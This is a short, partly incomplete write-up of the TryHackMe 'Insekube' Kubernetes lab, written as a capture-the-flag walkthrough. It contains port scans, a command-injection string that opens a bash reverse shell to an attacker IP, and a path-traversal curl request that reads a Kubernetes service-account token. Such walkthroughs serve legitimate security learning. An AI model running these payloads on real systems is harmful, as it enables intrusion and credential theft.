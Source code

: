 # [THM] - Kubernetes

[Room link](https://tryhackme.com/room/insekube)

--- 

 ## Task 1
 
 1. What ports are open? (comma separated)
  
**No aswer required**

```bash
# Fast scan all ports
$ nmap -sT -p- -T4 10.10.40.83
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

# Scan details
$ nmap -sC -sV -p22,80 -oN nmap_22-80.txt 10.10.40.83

```

--- 

## Task 2

To get reverse shell, start a listener nc on your machine (nc -lnvp 4444 for example) and put in the box the following string : 
127.0.0.1;bash -i >& /dev/tcp/<your_ip>/4444 0>&1

1. What is flag 1?

```bash
$ env | grep -i flag
$ env | grep -i flag
FLAG=flag{XXXX}
```

---

## Task 3

Install kubectl following the instructions. 

1.

## Task 5

```bash
challenge@syringe-79b66d66d7-6xdjz:/tmp$ curl --path-as-is http://10.105.120.1:3000/public/plugins/alertGroups/../../../../../../../../var/run/secrets/kubernetes.io/serviceaccount/token
</var/run/secrets/kubernetes.io/serviceaccount/token
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1022  100  1022    0     0   499k      0 --:--:-- --:--:-- --:--:--  499k
eyJhbGciOiJSUzI1NiIsImtpZCI6IkpwcUhIZ1hyRF9FbGYyQ1piWHNiemZhNGpnSTl0Z3Z1X2dMeFAtTURUaVUifQ[.....]
```
